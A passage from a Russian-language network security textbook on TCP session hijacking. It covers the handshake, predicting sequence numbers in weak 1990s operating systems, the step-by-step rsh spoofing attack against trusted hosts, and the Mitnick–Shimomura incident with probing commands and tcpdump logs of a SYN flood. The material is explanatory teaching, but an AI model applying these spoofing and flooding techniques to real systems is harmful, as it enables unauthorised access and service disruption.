






|
4.5. Подмена одного из субъектов TCP-соединения в сети Internet (hijacking)
Протокол TCP (Transmission Control Protocol) является одним из
базовых протоколов транспортного уровня сети
Internet. Этот протокол позволяет исправлять ошибки,
которые могут возникнуть в процессе передачи
пакетов, и является протоколом с установлением
логического соединения - виртуального канала. По
этому каналу передаются и принимаются пакеты с
регистрацией их последовательности,
осуществляется управление потоком пакетов,
организовывается повторная передача искаженных
пакетов, а в конце сеанса канал разрывается. При
этом протокол TCP является единственным базовым
протоколом из семейства TCP/IP, имеющим
дополнительную систему идентификации сообщений
и соединения. Именно поэтому протоколы
прикладного уровня FTP и TELNET, предоставляющие
пользователям удаленный доступ на хосты Internet,
реализованы на базе протокола TCP.
Для идентификации TCР-пакета в TCP-заголовке
существуют два 32-разрядных идентификатора,
которые также играют роль счетчика пакетов. Их
названия - Sequence Number и Acknowledgment Number. Также
нас будет интересовать поле, называемое Control Bits.
Это поле размером 6 бит может содержать
следующие командные биты (слева направо):
URG: Urgent Pointer field significant
ACK: Acknowledgment field significant
PSH: Push Function
RST: Reset the connection
SYN: Synchronize sequence numbers
FIN: No more data from sender
Далее рассмотрим схему создания TCP-соединения
(рис 4.9).
Предположим, что хосту А необходимо создать
TCP-соединение с хостом В. Тогда А посылает
на В следующее сообщение:

Рис. 4.9. Схема создания TCP-соединения.
1. A - > B: SYN, ISSa
Это означает, что в передаваемом A сообщении
установлен бит SYN (synchronize sequence number), а в поле Sequence
Number установлено начальное 32-битное значение ISSa (Initial
Sequence Number).
В отвечает:
2. B - > A: SYN, ACK, ISSb, ACK(ISSa+1)
В ответ на полученный от А запрос В
отвечает сообщением, в котором установлен бит SYN
и установлен бит ACK; в поле Sequence Number хостом В
устанавливается свое начальное значение
счетчика - ISSb; поле Acknowledgment Number содержит значение
ISSa, полученное в первом пакете от хоста А и
увеличенное на единицу.
А, завершая рукопожатие (handshake), посылает:
3. A - > B: ACK, ISSa+1, ACK(ISSb+1)
В этом пакете установлен бит ACK; поле Sequence Number
содержит ISSa + 1; поле Acknowledgment Num-ber содержит
значение ISSb + 1. Посылкой этого пакета на хост В
заканчивается трехступенчатый handshake, и
TCP-соединение между хостами А и В
считается установленным.
Теперь хост А может посылать пакеты с
данными на хост В по только что созданному
виртуальному TCP-каналу:
4. A - > B: ACK, ISSa+1, ACK(ISSb+1); DATA
Из рассмотренной выше схемы создания
TCP-соеди-нения видно, что единственными
идентификаторами TCP-абонентов и TCP-соединения
являются два 32-бит-ных параметра Sequence Number и
Acknowledgment Number. Следовательно, для формирования
ложного TCP-пакета атакующему необходимо знать
текущие идентификаторы для данного соединения -
ISSa и ISSb. Проблема возможной подмены TCP-сообщения
становится еще более важной, так как анализ
протоколов FTP и TELNET, реализованных на базе
протокола TCP, показал, что проблема идентификации
FTP- и TELNET-пакетов целиком возлагается данными
протоколами на транспортный уровень, то есть на
TCP. Это означает, что атакующему достаточно,
подобрав соответствующие текущие значения
идентификаторов TCP-пакета для данного
TCP-соединения (например, данное соединение может
представлять собой FTP- или TELNET-подклю-чение),
послать пакет с любого хоста в сети Internet
от имени одного из участников данного соединения
(например, от имени клиента), и данный пакет будет
воспринят как верный! К тому же, так как FTP и TELNET
не проверяют IP-адреса отправителей, от которых
им приходят сообщения, то в ответ на полученный
ложный пакет, FTP- или TELNET-сервер отправит ответ
на указанный в ложном пакете настоящий IP-адрес
атакующего, то есть атакующий начнет работу с FTP-
или TELNET-сервером со своего IP-адреса, но с правами
легально подключившегося пользователя, который,
в свою очередь,
потеряет связь с сервером из-за рассогласования
счет-
чиков!
Итак, для осуществления описанной выше атаки
необходимым и достаточным условием является
знание двух текущих 32-битных параметров ISSa и ISSb,
идентифицирующих TCP-соединение. Рассмотрим
возможные способы их получения.
В том случае, когда атакующий находится в одном
сегменте с целью атаки или через его сегмент
проходит трафик предполагаемого объекта атаки,
то задача получения значений ISSa и ISSb является
тривиальной и решается путем анализа сетевого
трафика. Следовательно, надо четко понимать, что
протокол TCP позволяет, в принципе, защитить
соединение только в случае невозможности
перехвата атакующим сообщений, передаваемых по
данному соединению, то есть в случае нахождения
атакующего в других сегментах относительно
абонентов TCP-соединения.
Поэтому наибольший интерес для нас
представляют межсегментные атаки, когда
атакующий и его цель находятся в разных
сегментах сети. В этом случае задача получения
значений ISSa и ISSb не является тривиальной. Далее
предлагается следующее решение данной проблемы.
4.5.1. Математическое предсказание начального
значения идентификатора TCP-соединения
экстраполяцией его предыдущих значений
Первый вопрос, который возникает в данном
случае: как сетевая операционная система
формирует начальное значение ISSa (так
называемый ISN - Initial Sequence Number)? Очевидно, что
наилучшим решением с точки зрения безопасности
будет генерация этого значения ISN по случайному
закону с использованием программного (а лучше
аппаратного) генератора псевдослучайных чисел с
достаточно большим периодом. В этом случае
каждое новое значение ISN не будет зависеть от его
предыдущего значения, а, следовательно, у
атакующего не будет даже теоретической
возможности нахождения функционального закона
получения ISN.
Однако оказывается, что подобные очевидные
правила случайной генерации ISN как для
составителей самого описания протокола TCP (RFC 793),
так и для разработчиков сетевого ядра различных
операционных систем являются далеко не
очевидными. Об этом говорят следующие факты. В
описании протокола TCP в RFC 793 рекомендуется
увеличивать значение этого 32-битного счетчика на
1 каждые 4 микросекунды (?!).
А как дело обстоит на практике? Поверьте, плохо!
Например, в ранних Berkeley-совместимых ядрах ОС UNIX
значение этого счетчика увеличивалось на 128
каждую секунду и на 64 для каждого нового
соединения. Анализ исходных текстов ядра ОС Linux
1.2.8 показал, что значение ISN вычисляется данной ОС
в зависимости от текущего времени по следующему,
отнюдь не случайному закону:
- ISN = mcsec + 1000000 sec, где
mcsec - время в микросекундах;
sec - текущее время в секундах, причем отсчет его
идет от 1970 года.
Вы думаете, что в других сетевых ОС лучше?
Ошибаетесь! В ОС Windows NT 4.0 значение ISN
увеличивается на 10 примерно каждую миллисекунду,
то есть для Windows NT справедлива следующая формула:
- ISN " 10 msec, где
msec - текущее время в миллисекундах.
Однако больше всего нас удивил защищенный по
классу B1 UNIX, установленный на многопроцессорной
мини-ЭВМ - полнофункциональном файрволе. Эта
наиболее защищенная из всех, что встречалась
авторам, сетевая ОС имеет также простой
времязависимый алгоритм генерации начального
значения идентификатора TCP-соединения. Как
говорится, комментарии здесь излишни. Мало того,
что в единственном базовом "защищенном"
(?!) протоколе Internet - протоколе TCP - применяется
простейший способ идентификации соединения,
который в принципе не позволяет гарантировать
надежную защиту от подмены одного из абонентов
при нахождении атакующего в том же сегменте, так
еще и сами разработчики сетевых ОС разрушают и
без того хрупкую безопасность этого протокола,
используя простые времязависимые алгоритмы
генерации ISN!
Итак, в том случае, если в сетевой операционной
системе используется времязависимый алгоритм
генерации начального значения идентификатора
TCP-соединения, то атакующий получает
принципиальную возможность определить с той или
иной степенью точности вид функции, описывающей
закон получения ISN. Исходя из практических
исследований сетевых ОС, а также из общих
теоретических соображений, можно предложить
следующий обобщенный вид функции, описывающий
времязависимый закон получения ISN:
- ISN = F (mсsec, msec, sec),
где mcsec - время в микросекундах (обычно, в
зависимости от аппаратного обеспечения
компьютера, минимальной единицей измерения
машинного времени является микросекунда, в
обычных IBM это так). Этот параметр циклически
изменяется за секунду от 0 до 106- 1;
msec - время в миллисекундах. Циклически
изменяется за секунду от 0 до 999;
sec - текущее время в секундах. Постоянно
увеличивается каждую секунду.
Рассматривая функцию (3) на малом промежутке
времени (меньшем 1 секунды), для удобства
аппроксимации можно считать, что
- ISN = F (mсsec).
Итак, мы будем считать, что значение ISN зависит
только от микросекунд. Данная функция (4) в силу
особенностей изменения своих аргументов обычно
в сетевых ОС является или кусочнолинейной или
ступенчатой. Например, зависимость (1),
описывающая закон получения ISN в ОС Linux, в случае
приведения ее к виду (4) является кусочнолинейной,
а функциональная зависимость (2), справедливая
для Windows NT, - ступенчатой.
На данном этапе мы вплотную подошли к проблеме
определения вида функциональной зависимости ISN
от параметра mcsec для конкретной сетевой ОС.
Первый способ получения этой зависимости -
анализ исходных текстов ядра операционной
системы. Использование данного способа на
практике обычно оказывается невозможным из-за
отсутствия исходных текстов большинства ОС.
Исключение составляют ОС Linux и FreeBSD, поставляемые
с исходными текстами ядра.
В связи с этим предлагается другой метод
получения закона изменения ISN от параметра mсsec. В
этом случае сетевая ОС рассматривается
исследователем как "черный ящик" , к
которому применяется метод тестирования
"запрос - ответ" : на исследуемую сетевую ОС
передается серия обычных запросов на создание
TCP-соединения и принимается соответствующее
количество ответов с текущими значениями ISN
операционной системы в каждый момент времени.
При этом замеряются временные интервалы (в
микросекундах) между запросом и ответом на него и
время, прошедшее между запросами. В результате
исследователем будет получена следующая таблица
дискретных отсчетов ISN и соответствующих им
моментов времени в mcsec:
| ISN0 |
ISN1 |
... |
ISNn |
| t0 |
t1 |
... |
tn |
|
где ISNn - значение ISN,
полученное за время tn от начала
эксперимента (время начала эксперимента
принимается за 0).
Аппроксимируя данную таблицу дискретных
значений непрерывной функцией одним из
известных математических методов (наименьших
квадратов, например), получим непрерывную
функцию, приближенно описывающую изменение ISN на
данном временном промежутке (от 0 до tn),
при этом чем выше точность исходных данных, тем
точнее приближение:
- ISN(t) = F(t);
Эта формула в общем случае позволяет нам по
предыдущему значению ISN, зная функцию изменения
ISN от времени, экстраполировать следующее
значение ISN. Теперь атакующий может, получив в
ответ на TCP-запрос текущее значение ISN для ОС в
данный момент времени, математически
предсказать следующее возможное значение ISN
через некоторый промежуток времени.
Хотелось бы обратить внимание на следующий
важный момент: чем ближе в сети находятся
исследователь и тестируемая ОС, тем выше
точность получения аппроксимирующей функции,
так как в противном случае, время за которое
запрос дойдет до системы и будет выработан ISN,
может существенно отличаться из-за задержек в
канале связи от времени передачи ответа обратно.
При этом погрешность исходных данных будет
увеличиваться, а точность экстраполяции - падать.
Заметим, что атакующему вовсе не обязательно
проводить подобные исследования с интересующим
его удаленным хостом. Достаточно только узнать
тип операционной системы на предполагаемой цели
атаки и получить в свое распоряжение подобную
систему для определения формулы изменения ISN в
данной ОС.
Что касается практических результатов, то
применение описанной выше методики получения
формулы ISN(t) на примере ОС Linux 1.2.8 и Windows NT 4.0
в случае нахождения в одном сегменте с данными
ОС позволило определить это 32-битное значение
(от 0 до 232- 1) по его предыдущему значению
для ОС Windows NT с точностью до 10, а для ОС Linux 1.2.8 - с
точностью примерно до 100. В следующей таблице
приведены снятые в процессе эксперимента с ОС Linux
1.2.8 значения изменения ISN (а не абсолютные
значения) за соответствующие промежутки времени:
Таблица изменения значения ISN для ОС Linux 1.2.8
| t, мкс |
2759 |
5685 |
8560 |
11462 |
14303 |
| D ISN |
65135 |
134234 |
202324 |
270948 |
338028 |
|
Следующий график, построенный по значениям из
данной таблицы и справедливый для ОС Linux 1.2.8,
наглядно показывает линейный характер изменения
значения начального идентификатора
TCP-соединения ISN на данном временном промежутке
(на самом деле зависимость изменения ISN для ОС Linux
1.2.8 носит кусочнолинейный характер):

Зависимость изменения ISN от времени для Linux 1.2.8
В общем случае, определив вид функций для
вычисления ISN в операционных системах на сервере
и предполагаемом клиенте, атакующий начинает
следить за ОС сервера, ожидая подключения
предполагаемого клиента. В тот момент времени,
когда подключение произошло, атакующий может
подсчитать возможный диапазон значений ISN,
которыми обменялись при создании TCP-канала
данные хосты. Так как атакующий может вычислить
значения ISN только приближенно, то ему не
избежать подбора. Однако, если не проводить
описанный выше анализ, то для перебора всех
возможных значений ISSa и ISSb понадобилось бы
послать 264 пакетов, что нереально. В случае
использования описанного выше анализа в
зависимости от полученной степени точности и
удаления атакующего от хостов потребуется
послать значительно меньшее число пакетов.
Например, если удалось вычислить значения ISN на
операционных системах с точностью до 100, то
атакующему для подмены одного из абонентов
TCP-соединения достаточно послать всего 10000
пакетов.
Далее мы рассмотрим ставшую уже классической
удаленную атаку на r-службу, осуществление
которой связано с описанными выше особенностями
идентификации TCP-пакетов.
4.5.2. Использование недостатков идентификации
абонентов TCP-соединения для атаки на rsh-сервер
В ОС UNIX существует понятие: доверенный хост.
Доверенным по отношению к данному хосту
называется сетевой компьютер, доступ на который
пользователю с данного хоста возможен без его
аутентификации и идентификации с помощью
r-службы (r - сокращение от анг. "remote" -
удаленный). Обычно в ОС UNIX существует файл rhosts, в
котором находится список имен и IP-адресов
доверенных хостов. Для получения к ним
удаленного доступа пользователю необходимо
воспользоваться программами, входящими в
r-службу (например, rlogin, rsh и т.д.). В этом случае при
использовании
r-программ с доверенного хоста пользователю для
получения удаленного доступа не требуется
проходить стандартную процедуру идентификации и
аутентификации, заключающуюся в проверке его
логического имени и пароля. Единственной
аутентифицирующей пользователя информацией для
r-службы является IP-адрес хоста, с которого
пользователь осуществляет удаленный r-доступ (п.
8.2). Отметим, что все программы из r-службы
реали-зованы на базе протокола TCP. Одной из
программ, входящих в r-службу, является rsh, с
помощью которой возможно осуществление данной
атаки. Программа rsh (remoute shell) позволяет отдавать
команды shell удаленному хосту. При этом (что
чрезвычайно важно в данном случае!) для того,
чтобы отдать команду, достаточно послать запрос,
но необязательно получать на него ответ. При
атаке на r-службу вся сложность для атакующего
заключается в том, что ему необходимо послать
пакет от имени доверенного хоста, то есть в
качестве адреса отправителя необходимо указать
IP-адрес доверенного хоста. Следовательно,
ответный пакет будет отправлен именно на
доверенный хост, а не на хост атакующего.
Схема удаленной атаки на rsh-сервер была впервые
описана небезызвестным Р.Т. Моррисом-старшим в
[27]. Она заключается в следующем (схема атаки
изображена на рис 4.10).
Рис. 4.10. Подмена одного из участников TCP-соединения
при атаке на rsh-сервер.

Рис. 4.10.1. X-Hacker посылает на Хост A серию TCP-запросов
на создание соединения, заполняя тем самым очередь запросов,
с целью вывести из строя на некоторое время Хост A.

Рис. 4.10.2. X-Hacker от имени Хоста A посылает запрос
на создание TCP-соединения на Хост B.

Рис. 4.10.3. Хост B отвечает хосту A на предыдущий запрос.

Рис. 4.10.4. Хост X-Hacker никогда не получит значения ISNb'
от хоста B, но, используя математическое предсказание ISN,
посылает на B от имени A пакет с ISNb'. При этом Хост A
не может послать пакет с битом RST.
Пусть хост А доверяет хосту В. Хост X-Hacker
- это станция атакующего.
Вначале атакующий X-Hacker открывает настоящее
TCP-соединение с хостом В на любой TCP-порт (mail,
echo и т.д.). В результате X-Hacker получит текущее
значение на данный момент времени ISNb. Далее, X-Hacker
от имени А посылает на В TCP-запрос на
открытие соединения:
1. X-Hacker ("A" ) - > B: SYN, ISSx.
Получив этот запрос, В анализирует IP-адрес
отправителя и решает, что пакет пришел с хоста А.
Следовательно, В в ответ посылает на А
новое значение ISNb':
2. B - > A: SYN, ACK, ISNb', ACK(ISSx+1).
X-Hacker никогда не получит это сообщение от В,
но, используя предыдущее значение ISNb и схему для
получения ISNb' при помощи математического
предсказания из п. 4.5.1, может послать пакет на В:
3. X-Hacker ("A" ) - > B: ACK, ISSx+1, ACK(ISNb'+1).
Отметим, что для того, чтобы послать этот пакет,
вероятно, потребуется перебрать некоторое
количество возможных значений ACK(ISSb' + 1), но не
потребуется подбор ISSx + 1, так как этот параметр
TCP-соединения был послан с хоста X-Hacker на В
в первом пакете.
В случае осуществления данной атаки перед
атакующим возникает следующая проблема. Так как X-Hacker
посылает пакет (1) на В от имени A, то хост B
ответит на A пакетом (2). А так как хост A не
посылал на хост B никакого пакета с запросом,
то A, получив ответ от B, перешлет на B
пакет с битом RST - закрыть соединение. Атакующего
с хоста X-Hacker это, естественно, не устраивает,
поэтому одной из атак, целью которых является
нарушение работоспособности системы, X-Hacker
должен вывести из строя на некоторое время хост A
(п. 4.6).
В итоге rsh-сервер на хосте В считает, что к
нему подключился пользователь с доверенного
хоста А, а на самом деле это атакующий с хоста X-Hacker.
И хотя X-Hacker никогда не сможет получить пакеты
с хоста В, но он сможет выполнять на нем
команды (r-команды).
В заключение авторам хотелось бы привести
пример реального инцидента, происшедшего в
Суперкомпьютерном центре в Сан-Диего 12 декабря
1994 года, когда атакующий (небезызвестный Кевин
Митник) использовал описанную выше схему
удаленной атаки. Данный инцидент представляет,
как нам кажется, исторический интерес и
показывает, что опасности, описанные в этой
книге, являются отнюдь не мнимыми угрозами из
Internet, а той реальностью, над которой большинство
пользователей просто не задумывается и которая в
любой момент может пожаловать к ним
в гости.
Все описанные ниже сведения взяты из письма
эксперта по информационной безопасности Цутому
Шимомуры (Tsutomu Shimomura) в различные эхо-конференции.
Далее приводится перевод его оригинального
письма с некоторыми сокращениями и нашими
комментариями:
"From: tsutomu@ariel.sdsc.edu (Tsutomu Shimomura)
Newsgroups: comp.security.misc,comp.protocols.tcp-ip,alt.security
Subject: Technical details of the attack described by Markoff in NYT
Date: 25 Jan 1995 04:36:37 -0800
Organization: San Diego Supercomputer Center
Message-ID: <3g5gkl$5j1@ariel.sdsc.edu>
NNTP-Posting-Host: ariel.sdsc.edu
Keywords: IP spoofing, security, session hijacking
Greetings from Lake Tahoe.
В статье Джона Маркоффа от 23.01.95 в NYT и в
рекомендациях CERT CA-95:01, кажется, было достаточно
много путаницы насчет того, что такое на самом
деле атака с использованием подмены IP-адреса с
целью подмены одного из абонентов соединения.
|
Имеется в виду статья в New York Times под названием "Data Network Is Found Open To New Threat". Следующая статья была опубликована 28 января 1995 года под названием "Taking a Computer Crime to Heart". Заключительная статья "A Most-Wanted Cyberthief Is Caught In His Own Web" опубликована 16 февраля того же года. Time Magazine напечатал две статьи под следующими громкими заголовками:
"KEVIN MITNICK'S DIGITAL OBSESSION" и "CRACKS IN THE NET: America's most wanted hacker has been arrested, but the Internet is more vulnerable than ever" (Да неужели?! Куда уж более?!).
Шумиха, поднятая американской прессой по этому незначительному поводу, была столь велика, что нам остается только удивляться, насколько еще верна крылатая фраза Шекспира: "Много шума из ничего". Хотя, с другой стороны, это можно объяснить тем, что, во-первых, в США благодаря стараниям прессы сложился легендарный образ злобного супер-хакера, этакого "монстра" киберпространства - Кевина Митника, во-вторых, это был один из редких случаев обнародования информации о случившейся удаленной атаке, в-третьих, ее осуществление удалось проследить и запротоколировать, что обычно очень не просто, и, в-четвертых, с нашей точки зрения, это, пожалуй, единственная известная, при этом довольно красивая, удаленная атака на TCP-соединение, и поэтому ей так и увлеклась пресса (истории о "тупых" атаках с перехватом пароля или попытками его подбора уже, видимо, навязли на зубах у читателя).
|
Здесь приведены некоторые технические
подробности из моей презентации 11.01.95 в CMAD 3 в
Сономе, Калифорния. Надеюсь, это поможет снять
всяческое непонимание природы этих атак.
Для атаки использовалось два различных
механизма. Подмена IP-адреса отправителя и
математическое предсказание начального
значения идентификатора TCP-соединения позволили
получить доступ к бездисковой рабочей станции,
которая использовалась как X-терминал.
В письмо включен log-файл, полученный с помощью
программы tcpdump, с записью всех пакетов, посланных
атакующим. Для краткости этот файл приводится с
сокращением некоторых несущественных
подробностей.
Моя конфигурация:
server = SPARC с ОС Solaris 1, обслуживающий
х-terminal
х-terminal = бездисковая рабочая станция SPARC с ОС
Solaris 1
target = основная цель атаки.
Атака началась в 14:09:32 25.12.94. Первые попытки
зондирования начались с хоста toad.com
(информация взята из log-файла).
14:09:32 toad.com# finger -l @target
14:10:21 toad.com# finger -l @server
14:10:50 toad.com# finger -l root@server
14:11:07 toad.com# finger -l @x-terminal
14:11:38 toad.com# showmount -e x-terminal
14:11:49 toad.com# rpcinfo -p x-terminal
14:12:05 toad.com# finger -l root@x-terminal
Зондирование системы позволило определить,
есть ли у нее другие доверенные системы для
дальнейшей атаки. То, что атакующий смог
запустить программы showmount и rpcinfo, означало, что он
является пользователем root на хосте toad.com.
Через шесть минут мы видим шторм TCP-запросов на
создание соединения с адреса 130.92.6.97 на 513 порт
(login) хоста server. При этом основная цель атакующего
состоит в том, чтобы этими однонаправленными
TCP-запросами переполнить очередь на 513 порту
сервера так, чтобы он не смог отвечать на новые
запросы на создание соединения. Особенно важно,
чтобы сервер не смог сгенерировать TCP-пакет с
битом RST в ответ на неожиданно пришедший TCP-пакет
с битами SYN и ACK.
Так как порт 513 является привилегированным
портом, то теперь IP-адрес хоста server.login может быть
свободно использован атакующим для атаки с
использованием подмены адреса на r-службы
UNIX-систем (rsh, rlogin). IP-адрес 130.92.6.97 атакующий выбрал
случайным образом из неиспользуемых адресов (ему
не нужно получать пакеты, передаваемые на этот
адрес).
|
Шимомура здесь и далее после имени или IP-адреса хоста через точку указывает порт назначения. Поэтому запись server.login означает хост server и порт login (513). Соответственно, например, первая из распечатки log-файла запись 130.92.6.97.600 означает, что пакет передается с IP-адреса 130.92.6.97 с 600 порта.
|
14:18:22.516699 130.92.6.97.600 >
server.login: S 1382726960:1382726960(0) win 4096
14:18:22.566069 130.92.6.97.601 >
server.login: S 1382726961:1382726961(0) win 4096
14:18:22.744477 130.92.6.97.602 >
server.login: S 1382726962:1382726962(0) win 4096
14:18:22.830111 130.92.6.97.603 >
server.login: S 1382726963:1382726963(0) win 4096
14:18:22.886128 130.92.6.97.604 >
server.login: S 1382726964:1382726964(0) win 4096
14:18:22.943514 130.92.6.97.605 >
server.login: S 1382726965:1382726965(0) win 4096
14:18:23.002715 130.92.6.97.606 >
server.login: S 1382726966:1382726966(0) win 4096
14:18:23.103275 130.92.6.97.607 >
server.login: S 1382726967:1382726967(0) win 4096
14:18:23.162781 130.92.6.97.608 >
server.login: S 1382726968:1382726968(0) win 4096
14:18:23.225384 130.92.6.97.609 >
server.login: S 1382726969:1382726969(0) win 4096
14:18:23.282625 130.92.6.97.610 >
server.login: S 1382726970:1382726970(0) win 4096
14:18:23.342657 130.92.6.97.611 >
server.login: S 1382726971:1382726971(0) win 4096
14:18:23.403083 130.92.6.97.612 >
server.login: S 1382726972:1382726972(0) win 4096
14:18:23.903700 130.92.6.97.613 >
server.login: S 1382726973:1382726973(0) win 4096
14:18:24.003252 130.92.6.97.614 >
server.login: S 1382726974:1382726974(0) win 4096
14:18:24.084827 130.92.6.97.615 >
server.login: S 1382726975:1382726975(0) win 4096
14:18:24.142774 130.92.6.97.616 >
server.login: S 1382726976:1382726976(0) win 4096
14:18:24.203195 130.92.6.97.617 >
server.login: S 1382726977:1382726977(0) win 4096
14:18:24.294773 130.92.6.97.618 >
server.login: S 1382726978:1382726978(0) win 4096
14:18:24.382841 130.92.6.97.619 >
server.login: S 1382726979:1382726979(0) win 4096
14:18:24.443309 130.92.6.97.620 >
server.login: S 1382726980:1382726980(0) win 4096
14:18:24.643249 130.92.6.97.621 >
server.login: S 1382726981:1382726981(0) win 4096
14:18:24.906546 130.92.6.97.622 >
server.login: S 1382726982:1382726982(0) win 4096
14:18:24.963768 130.92.6.97.623 >
server.login: S 1382726983:1382726983(0) win 4096
14:18:25.022853 130.92.6.97.624 >
server.login: S 1382726984:1382726984(0) win 4096
14:18:25.153536 130.92.6.97.625 >
server.login: S 1382726985:1382726985(0) win 4096
14:18:25.400869 130.92.6.97.626 >
server.login: S 1382726986:1382726986(0) win 4096
14:18:25.483127 130.92.6.97.627 >
server.login: S 1382726987:1382726987(0) win 4096
14:18:25.599582 130.92.6.97.628 >
server.login: S 1382726988:1382726988(0) win 4096
14:18:25.653131 130.92.6.97.629 >
server.login: S 1382726989:1382726989(0) win 4096
Хост server генерирует на первые 8 запросов
соответственно 8 ответов, после чего очередь
переполняется. Хост server периодически будет посылать эти ответы,
но так и не дождется на них никакой реакции.
|
Кстати, наши эксперименты, описанные в п. 4.6, это подтвердили.
|
Далее мы видим 20 попыток создания соединения с
хоста apollo.it.luc.edu на x-terminal.shell. Основная
цель этих запросов - определить закон изменения
начального значения идентификатора
TCP-соединения на хосте x-terminal. Так как значение ISN
увеличивается на единицу с каждым вновь
посылаемым запросом, то, следовательно, эти
запросы генерирует не ядро сетевой ОС. При этом
очередь запросов на хосте
x-terminal не переполняется, так как атакующий после
каждого запроса передает пакет с битом RST, что
означает "закрыть соединение" .
14:18:25.906002 apollo.it.luc.edu.1000 >
x-terminal.shell: S 1382726990:1382726990(0) win 4096
14:18:26.094731 x-terminal.shell >
apollo.it.luc.edu.1000: S 2021824000:2021824000(0)
ack 1382726991 win 4096
14:18:26.172394 apollo.it.luc.edu.1000 >
x-terminal.shell: R 1382726991:1382726991(0) win 0
14:18:26.507560 apollo.it.luc.edu.999 >
x-terminal.shell: S 1382726991:1382726991(0) win 4096
14:18:26.694691 x-terminal.shell >
apollo.it.luc.edu.999: S 2021952000:2021952000(0)
ack 1382726992 win 4096
14:18:26.775037 apollo.it.luc.edu.999 >
x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:26.775395 apollo.it.luc.edu.999 >
x-terminal.shell: R 1382726992:1382726992(0) win 0
14:18:27.014050 apollo.it.luc.edu.998 >
x-terminal.shell: S 1382726992:1382726992(0) win 4096
14:18:27.174846 x-terminal.shell >
apollo.it.luc.edu.998: S 2022080000:2022080000(0)
ack 1382726993 win 4096
14:18:27.251840 apollo.it.luc.edu.998 >
x-terminal.shell: R 1382726993:1382726993(0) win 0
14:18:27.544069 apollo.it.luc.edu.997 >
x-terminal.shell: S 1382726993:1382726993(0) win 4096
14:18:27.714932 x-terminal.shell >
apollo.it.luc.edu.997: S 2022208000:2022208000(0)
ack 1382726994 win 4096
14:18:27.794456 apollo.it.luc.edu.997 >
x-terminal.shell: R 1382726994:1382726994(0) win 0
14:18:28.054114 apollo.it.luc.edu.996 >
x-terminal.shell: S 1382726994:1382726994(0) win 4096
14:18:28.224935 x-terminal.shell >
apollo.it.luc.edu.996: S 2022336000:2022336000(0)
ack 1382726995 win 4096
14:18:28.305578 apollo.it.luc.edu.996 >
x-terminal.shell: R 1382726995:1382726995(0) win 0
14:18:28.564333 apollo.it.luc.edu.995 >
x-terminal.shell: S 1382726995:1382726995(0) win 4096
14:18:28.734953 x-terminal.shell >
apollo.it.luc.edu.995: S 2022464000:2022464000(0)
ack 1382726996 win 4096
14:18:28.811591 apollo.it.luc.edu.995 >
x-terminal.shell: R 1382726996:1382726996(0) win 0
14:18:29.074990 apollo.it.luc.edu.994 >
x-terminal.shell: S 1382726996:1382726996(0) win 4096
14:18:29.274572 x-terminal.shell >
apollo.it.luc.edu.994: S 2022592000:2022592000(0)
ack 1382726997 win 4096
14:18:29.354139 apollo.it.luc.edu.994 >
x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.354616 apollo.it.luc.edu.994 >
x-terminal.shell: R 1382726997:1382726997(0) win 0
14:18:29.584705 apollo.it.luc.edu.993 >
x-terminal.shell: S 1382726997:1382726997(0) win 4096
14:18:29.755054 x-terminal.shell >
apollo.it.luc.edu.993: S 2022720000:2022720000(0)
ack 1382726998 win 4096
14:18:29.840372 apollo.it.luc.edu.993 >
x-terminal.shell: R 1382726998:1382726998(0) win 0
14:18:30.094299 apollo.it.luc.edu.992 >
x-terminal.shell: S 1382726998:1382726998(0) win 4096
14:18:30.265684 x-terminal.shell >
apollo.it.luc.edu.992: S 2022848000:2022848000(0)
ack 1382726999 win 4096
14:18:30.342506 apollo.it.luc.edu.992 >
x-terminal.shell: R 1382726999:1382726999(0) win 0
14:18:30.604547 apollo.it.luc.edu.991 >
x-terminal.shell: S 1382726999:1382726999(0) win 4096
14:18:30.775232 x-terminal.shell >
apollo.it.luc.edu.991: S 2022976000:2022976000(0)
ack 1382727000 win 4096
14:18:30.852084 apollo.it.luc.edu.991 >
x-terminal.shell: R 1382727000:1382727000(0) win 0
14:18:31.115036 apollo.it.luc.edu.990 >
x-terminal.shell: S 1382727000:1382727000(0) win 4096
14:18:31.284694 x-terminal.shell >
apollo.it.luc.edu.990: S 2023104000:2023104000(0)
ack 1382727001 win 4096
14:18:31.361684 apollo.it.luc.edu.990 >
x-terminal.shell: R 1382727001:1382727001(0) win 0
14:18:31.627817 apollo.it.luc.edu.989 >
x-terminal.shell: S 1382727001:1382727001(0) win 4096
14:18:31.795260 x-terminal.shell >
apollo.it.luc.edu.989: S 2023232000:2023232000(0)
ack 1382727002 win 4096
14:18:31.873056 apollo.it.luc.edu.989 >
x-terminal.shell: R 1382727002:1382727002(0) win 0
14:18:32.164597 apollo.it.luc.edu.988 >
x-terminal.shell: S 1382727002:1382727002(0) win 4096
